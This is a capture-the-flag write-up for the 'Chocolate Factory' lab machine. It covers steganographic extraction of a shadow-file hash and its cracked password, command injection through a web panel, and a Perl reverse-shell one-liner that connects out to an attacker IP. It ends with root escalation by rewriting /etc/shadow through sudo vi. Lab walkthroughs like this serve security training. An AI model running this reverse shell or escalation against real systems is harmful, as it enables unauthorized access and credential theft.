









# Chocolate Factory

http://factory.thm<br>
<br>
<hr>

<br>
```
strings key_rev_key

Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
...
```
<hr>

`FTP` server:<br>
 - `gum_room.jpg`

`steghide extract -sf gum_room.jpg`<br>
<br>
From the name it is obvious that file is encoded in `base64`. Decode it and you will see content that looks like a Linux `shadow` file. And even get a hash.
```
...
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

Let's break it down
```
Username: charile
Hash: $6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/
Password: cn7824
```

<hr>

I used the creds on the website and here is what I got:<br>
<br>

Executed `ls -la` in the command input<br>
<br>

Started `nc` listener and put a `perl` reverse shell command in the command input.
```
perl -e 'use Socket;$i="10.2.116.12";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```
<hr>

I went to `/home/charlie` and found this:<br>
<br>

Where file `teleport` is a private key. I used the private key and got charlie's shell.<br>
<br>
<hr>

I executed `sudo -l` and found that I was able to run `vi` as root<br>
<br>

So I opened `/etc/shadow` with `vi`
```
sudo /usr/bin/vi /etc/shadow
```
And change the hash of root to `WVLY0mgH0RtUI` which equals `mrcake`. Then `su root` and got root shell. We got file `/root/root.py`. Execute it:
```
python root.py
pass the key from the first question.
```

Get the flag.